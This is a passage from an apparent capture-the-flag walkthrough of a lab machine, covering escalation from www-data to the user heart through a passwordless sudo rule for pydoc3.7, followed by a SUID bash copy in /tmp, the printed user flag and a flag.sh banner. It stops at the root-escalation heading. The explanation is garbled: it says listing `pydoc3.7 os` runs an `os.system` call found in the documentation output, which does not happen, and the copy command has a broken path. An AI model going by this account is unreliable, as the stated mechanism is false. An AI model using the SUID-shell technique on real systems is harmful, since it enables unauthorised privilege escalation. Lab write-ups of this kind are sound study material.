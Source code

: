 This file contained database credentials, but they were not immediately useful for system login.

Next, I checked `sudo` permissions for the `www-data` user:

```shellscript
www-data@broken:~/html/textpattern/files$ sudo -l
Matching Defaults entries for www-data on broken:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on broken:
    (heart) NOPASSWD: /usr/bin/pydoc3.7
```

The `www-data` user can run `/usr/bin/pydoc3.7` as `heart` without a password. `pydoc3.7` can be exploited to execute arbitrary Python code. I used its ability to display documentation for modules, including the `os` module, and injected a command into the output.

```shellscript
www-data@broken:/home/heart$ sudo -u heart /usr/bin/pydoc3.7 os
# ... (truncated output) ...
os.system("cp /use/bin/bash /tmp/heartbash && chmod 4755 /tmp/heartbash")
# ... (truncated output) ...
```

By calling `pydoc3.7 os`, the `os.system` call within the `pydoc` output was executed, creating a SUID `bash` shell owned by `heart` in `/tmp`.

```shellscript
www-data@broken:/home/heart$ /tmp/heartbash -p
heart@broken:~$ id
uid=1000(heart) gid=1000(heart) groups=1000(heart),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

I successfully gained a shell as the `heart` user. I then retrieved the `user.txt` flag:

```shellscript
heart@broken:~$ cat user.txt
HMVPatchtowin
```

The user flag is `HMVPatchtowin`. I also found a `flag.sh` script in `/home/heart` which, after making it executable, displayed the user flag.

```shellscript
heart@broken:~$ chmod +x flag.sh
heart@broken:~$ ./flag.sh
# ... (ASCII art) ...
PWNED HOST: broken
PWNED DATE: Thu Jul 24 07:37:24 EDT 2025
WHOAMI: uid=1000(heart) gid=1000(heart) groups=1000(heart),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
FLAG: HMVPatchtowin
------------------------
```

### 5. Privilege Escalation to `root`

